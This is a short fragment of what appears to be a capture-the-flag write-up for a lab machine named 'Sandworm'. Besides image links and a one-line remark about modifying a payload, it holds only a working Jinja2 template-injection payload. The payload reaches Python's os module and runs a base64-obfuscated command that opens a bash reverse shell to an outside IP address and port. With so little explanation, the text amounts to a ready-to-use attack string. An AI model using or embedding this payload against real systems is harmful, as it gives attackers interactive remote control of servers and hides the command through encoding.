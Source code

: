 ![Untitled](Sandworm%207c63f253073b46e1b0040559500c3300/Untitled%2052.png)

Modify payload add command use std::process::command

copying old payload in ssti one

```jsx
└─$ cat ssti   
{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4yNS85MDAxIDA+JjEK | base64 -d | bash").read() }}
```

![Untitled](Sandworm%207c63f253073b46e1b0040559500c3300/Untitled%2053.png)
